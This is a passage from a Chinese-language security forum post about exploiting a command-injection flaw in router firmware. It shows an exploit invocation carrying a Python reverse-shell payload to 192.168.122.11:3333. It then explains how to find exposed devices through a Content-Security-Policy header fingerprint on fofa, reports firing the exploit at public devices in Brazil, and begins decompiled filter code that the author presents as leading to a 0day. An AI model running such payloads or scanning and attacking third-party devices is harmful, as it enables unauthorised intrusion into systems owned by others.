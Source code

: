 本地测试
====

以 Command Inject EXP 为例：

```
python exp.py http://192.168.122.12 "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.122.11\",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"

```

![](https://bbs.pediy.com/upload/attach/202108/793907_2N6ZX9PSPM6XXNB.png)

真实设备测试
======

由于我手里没有真实设备, 只能找一些公网上的设备验证。

 

用 burpsuit 抓包获取设备特征

 

![](https://bbs.pediy.com/upload/attach/202108/793907_FNWHR3QMJ96WGE9.png)

 

`Content-Security-Policy:`是一个很明显的特征

 

在 fofa 上搜索 `header="frame-ancestors 'self' 'unsafe-inline' 'unsafe-eval'; script-src 'self' 'unsafe-inline' 'unsafe-eval'; style-src 'self' 'unsafe-inline' 'unsafe-eval'"`

 

我这里只搜索了巴西的

 

![](https://bbs.pediy.com/upload/attach/202108/793907_Y57VZTAV5YZ2HPZ.png)

 

用 exp 打来试试

 

![](https://bbs.pediy.com/upload/attach/202108/793907_ZGKV8SGN6U2XC2F.png)

收获 0day
=======

一开始我补丁比较的时候就发现，v1.0.01.02 固件在 sprintf 之前加入了字符过滤函数  
![](https://bbs.pediy.com/upload/attach/202108/793907_J27AQFX2MQS4GX8.png)

 

该函数完整代码如下

```
_BYTE *__fastcall filer(_BYTE *output, _BYTE *input, int a3_1024)
{
  _BYTE *v3; // r3
  _BYTE *v4; // r3
  _BYTE *v5; // r3
  _BYTE *v6; // r3
  _BYTE *v7; // r3
  _BYTE *v8; // r2
  int v9; // [sp+10h] [bp-14h]
  _BYTE *v10; // [sp+14h] [bp-10h]
  int v12; // [sp+1Ch] [bp-8h]
  int v13; // [sp+1Ch] [bp-8h]
  int v14; // [sp+1Ch] [bp-8h]
 
```